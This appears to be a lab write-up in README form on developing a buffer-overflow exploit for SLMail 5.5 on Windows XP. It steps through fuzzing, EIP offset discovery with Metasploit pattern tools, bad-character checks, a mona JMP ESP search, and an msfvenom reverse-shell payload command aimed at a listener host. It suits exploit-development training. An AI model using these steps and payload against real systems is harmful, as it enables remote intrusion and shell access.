

# SLMail 5.5 exploit development


## Exploit background

Version: SLMail 5.5

Debugger use: Immunity Debugger

OS: Windows XP SP3 32-bit

## Development steps

1. Use fuzz.py to know how many A will get overflow.

    2600: will trigger the overflow, but it is not within the A range

    

    2700: will trigger the overflow, and EIP fill with A.

2. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
    [*] Exact match at offset 2606
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    

4. Expand the payload from 2700 to 3500 by increase the length of CCCC section, Run again and confirm that this works.

    

5. Bad characters checker, badchars is \x00\0xa\0xd only, see code at bad_chars.py


6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    Openc32.dll
    SLMail.exe
    SLMFC.dll

    
    
7. Inspect the memory map on `Memory map` windows


8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

```
root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp 
nasm > jmp esp
00000000  FFE4              jmp esp
```


9. use mona to find address => 0x5f4a358f

    `!mona find -s "\xff\xe4" -m slmfc.dll`

    

10. update the script to replace B with address `\x8f\x35\x4a\x5f`, set breakpoint at 0x5f4a358f


11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC


12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

     

## Extra info

1. This process can only be attached, it is better to connect it first before attach.

2. It is very easy to fail attach, and kill the process when detach.